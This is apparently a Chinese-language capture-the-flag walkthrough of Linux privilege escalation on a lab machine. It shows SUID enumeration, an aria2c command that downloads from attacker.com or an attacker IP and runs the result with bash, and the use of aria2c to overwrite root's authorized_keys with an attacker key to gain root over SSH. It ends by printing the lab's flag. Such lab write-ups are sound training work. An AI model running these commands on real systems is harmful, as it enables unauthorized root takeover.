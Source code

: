 ##### 检测Linux操作系统的内核版本

较低的内核版本可以进行`脏牛`提权
1.  `uname -a` 1.  `Linux assertion 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux` 
内核版本为`4.15.0`

##### 检测当前用户的权限
1.  `www-data@assertion:/$ id` 1.  `uid=33(www-data) gid=33(www-data) groups=33(www-data)` 
##### 列举出所有的sudo文件

查找具有`sudo`权限，且不需要密码的可提权文件<br/> 如果发现`sudo -l`有东西的话 访问 `https://gtfobins.github.io` 寻找
1.  `# 利用sudo -l寻找` 1.  `www-data@assertion:/$ sudo -l` 1.  `sudo -l` 1.  `[sudo] password for www-data: root` 1.  `Sorry, try again.` 
发现需要密码

##### 列举出所有suid文件

如果发现`u=s`有东西的话 访问 `https://gtfobins.github.io` 寻找
1.  `# -perm 文件权限` 1.  `www-data@assertion:/$ find / -perm -u=s -type f 2&gt;/dev/null ` 1.  `/usr/lib/openssh/ssh-keysign` 1.  `/usr/lib/eject/dmcrypt-get-device` 1.  `/usr/lib/policykit-1/polkit-agent-helper-1` 1.  `...` 1.  `/usr/bin/aria2c` 1.  `/usr/bin/chfn` 1.  `/bin/ping` 1.  `/bin/mount` 1.  `/bin/fusermount` 1.  `/bin/su` 
#### 权限提升

##### suid-aria2c提权

发现一个`aria2c`没见过<br/> 如果发现有东西的话 访问 https://gtfobins.github.io 寻找

###### 提权尝试一（失败）
1.  `COMMAND='id'` 1.  `TF=$(mktemp)` 1.  `echo "$COMMAND" &gt; $TF` 1.  `chmod +x $TF` 1.  `aria2c --on-download-error=$TF http://x` 
尝试失败决定用第二个

###### 提权尝试二（失败）

第二个是远程加载执行文件，需要满足16位
1.  `aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa` 1.  `aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://192.168.45.218:80/aaaaaaaaaaaaaaaa` 
提权没啥用，上传了没执行

###### 提权尝试三(覆盖root的ssh连接密钥)

尝试百度大法寻找`aria2c`提权姿势
1.  `aria2c是一个下载工具，拥有SUID权限的话，意味着可以用它下载任何内容，并且可以保存在任意位置。` 
是不是可以创建一对密钥，然后把公钥上传到靶机上的`/root/.ssh`下?
1.  `# 生成的命令` 1.  `ssh-keygen -t rsa` 1.  `# 选择需要生成名称` 1.  `Enter file in which to save the key (/root/.ssh/id_rsa): yaoruo` 1.  `# 是否需要生成密码` 1.  `Enter passphrase (empty for no passphrase): ` 1.  `# 会生成一个密钥和一个公钥` 1.  `yaoruo yaoruo.pub` 1.  `# 重命名` 1.  `cp yaoruo.pub authorized_keys` 1.  `# 放到.shh` 1.  `cp yaoruo ~/.ssh/` 
在目标靶机上用`aria2c`下载这个公钥
1.  `/usr/bin/aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.45.218:80/authorized_keys" --allow-overwrite=true` 
<br/> 远程连接提权成功
1.  `sudo ssh -i yaoruo root@192.168.151.94` 
#### FLAG2获取
1.  `root@assertion:~# cat /root/proof.txt` 1.  `9b9bf7eec2d5e862a7fa151a0e1a6e0a` 
完结撒花~
